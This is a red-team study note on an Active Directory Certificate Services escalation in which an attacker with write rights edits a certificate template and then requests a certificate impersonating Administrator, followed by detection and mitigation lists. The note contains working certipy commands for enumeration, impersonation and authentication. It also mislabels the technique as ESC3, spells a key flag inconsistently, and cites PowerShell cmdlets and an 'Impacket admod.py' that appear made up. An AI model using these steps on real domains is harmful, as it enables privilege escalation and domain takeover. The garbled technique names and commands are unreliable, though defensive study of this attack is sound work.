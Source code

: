 ```yaml
---
tags:
  - attack
  - knowledge
  - AD
  - windows
  - redteam
date: 2023-09-1
---
```

- Escalation path in [[ADCS (Active Directory Certificate Services)|AD CS]]. 
- Attacker does not abuse existing vulnerable templates:
	- they make one vulnerable.
- Attacker has `Write` or `Full Control` permissions on a cert template:
	- modify it to enable spoofing (e.g [[ESC1]]/[[ESC2]]) or grant themselves enroll rights.
	- lets them:
		- modify template flags like `ENROLLEE_SUPPLIER_SUBJECT`.
		- add client authentication EKU.
		- enable dangerous options like SAN spoofing.
		- grant themselves or others enroll permissions.
# Background

- [[Certificate Template|Templates]] are stored in AD, not on the CA directly meaning:
	- they are regular AD objects in configuration partition.
	- they have discretionary [[ACL (Access Control List)|ACLs]].
- If you have:
	- `Write` or `GenericAll` rights over template object
	- OR a `WriteProperty` permission on key attributes.
- You can:
	- modify the template.
	- add yourself to enroll/read ACL.
	- enable attributes.
	- abuse it.

>[!info]
>ESC3 is a precursor attack - it creates the conditions needed for ESC1/2/4/6/10 and others by manipulating templates directly.
# Modifiable Template Features

- Check ACLs on the template object.
- If user/group has:
	- `GenericAll`
	- `Write`
	- `WriteProperty` on:
		- `msPKI-Certificate-Name-Flag`
		- `pKIExtendedKeyUsage`
		- `ntSecurityDescriptor`
- You can modify the template.
- Templates live:
	- `CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=domain,DC=com`
# Exploitation

- Find modifiable templates:
	- `certipy-ad find -u user@domain -p pass -dc-ip <ip> -vulnerable`
- Manually enumerate template permissions with:

```powershell
Get-ADObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=domain,DC=com" `
  -LDAPFilter "(objectClass=pKICertificateTemplate)" -Properties nTSecurityDescriptor | ForEach-Object {
    # Use ACL scanner or PowerView to analyze ACLs
  }
```

- Use [[BloodHound]] to identify `WriteProperty`/`GenericAll` edges on templates.
- Use PKIView or `admod.py` to:
	- Set `ENROLLEE_SUPPLIES_SUBJECT` flag
	- Add Client Authentication EKU
	- Grant yourself Enroll permissions
- Powershell can also be used:

```powershell
Set-CertificateTemplate -Name "TargetTemplate" -SubjectNameFlag EnrolleeSuppliesSubject
Add-CertificateTemplateEku -Name "TargetTemplate" -Eku ClientAuthentication
Add-TemplateAcl -TemplateName "TargetTemplate" -Principal "lowprivuser" -AccessRights Enroll
```

- Or `admod.py` (Impacket):
	- `admod.py -k -no-pass domain/user@dc "CN=VulnTemplate,...":msPKI-Certificate-Name-Flag=134217728`.
- Finally, abuse it via ESC1/ESC2:
	- `certipy req -u user@domain -p pass -template VulnTemplate -ca CA01\corp-CA -upn Administrator@domain.local -dc-ip <ip> -output esc3`
	- `certipy auth -pfx esc3.pfx -dc-ip <ip>`
# Detection

- `Event ID 4899`: Template modified
- Change in ACLs or EKUs on a template
- Unusual use of `ENROLLEE_SUPPLIES_SUBJECT` on templates that didn’t have it before
- Certificate issuance (`Event ID 4886`) from newly vulnerable templates
- Monitor:
	- Changes to `pKIExtendedKeyUsage`
	- Changes to `msPKI-Certificate-Name-Flag`
	- ACLs that allow non-admins to modify templates
# Mitigation

- Audit template ACLs
	- No users/groups should have `Write`, `FullControl`, `WriteDACL`, or `WriteProperty`
	- Especially not Authenticated Users or Domain Users
- Monitor template changes
	- Use Windows Event Logs (`Event ID 4899`) or directory auditing
- Restrict template management
	- Only PKI admins or Enterprise Admins should be able to change template settings
- Periodically dump and diff template configs
	- Spot stealthy abuse of EKUs or subject flags
